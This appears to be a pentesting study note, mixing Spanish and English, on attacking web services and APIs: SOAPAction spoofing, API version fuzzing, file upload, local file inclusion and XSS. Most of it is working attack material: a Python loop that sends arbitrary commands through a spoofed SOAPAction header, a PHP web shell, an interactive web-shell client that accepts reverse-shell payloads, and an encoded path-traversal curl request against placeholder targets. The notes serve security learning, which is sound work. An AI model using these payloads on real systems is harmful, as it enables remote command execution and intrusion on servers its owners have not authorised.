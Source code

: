 


### WSDL

Los WSDL son xmls que informan de los metodos disponibilizados, la forma de llamarlos y dónde residen


### SOAP

#### Soap Action Spoofing
SOAP messages towards a SOAP service should include both the operation and the related parameters. 
This operation resides in the first child element of the SOAP message's body. If HTTP is the transport of choice, it is allowed 
to use an additional HTTP header called SOAPAction, which contains the operation's name. The receiving web service can identify 
the operation within the SOAP body through this header without parsing any XML.

If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to 
SOAPAction spoofing.

ejemplo de soapaction spoofin:

        import requests

        while True:
            cmd = input("$ ")
            payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
            print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)


#### Information disclosure

Tenemos que invertir mucho tiempo en fuzzig cuando testeamos una api.
Si la api manifiesta una versión como "v2", siempre vale la pena probar versiones anteriores que pueden quedar como shadow


### Arbitrary file inclusion.
si logramos subir una shell:

                <?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

pero no logramos explotarla desde el servidor, podemos atacar a la api que utiliza. La ubicación de la misma estará en las request del
navegador.

un código simple en python para aprovechar esta shell y transformarla en una más interactiva:

                import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
                parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
                parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
                parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
                parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
                args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
                if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
                    parser.print_help() # shows help menu
                elif args.target and args.payload: # elif (if they both have values do some action)
                    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
                if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
                    os.system("clear") # clear the screen (linux)
                    while True: # starts a while loop (never ending loop)
                        try: # try statement
                            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
                            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
                            time.sleep(0.3) # waits 0.3 seconds during each request
                        except requests.exceptions.InvalidSchema: # error handling
                            print("Invalid URL Schema: http:// or https://")
                        except requests.exceptions.ConnectionError: # error handling
                            print("URL is invalid")
                


##### Run:
                python shell.py -t url/path-to-file/file.php -o yes

#### FIle inclusion:
cuando vemos que un endpoint nos permite buscar o presentar archivos (ej downloads) siempre es un buen momento para probar una LFI:
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
siempre se recomienda encodear el payload.

#### XSS

Si vemos que los valores introducidos en la url del endpoint se reflejan en la página siempre es un buen momento para probar XSS.
P.D.: Siempre encodear una vez.

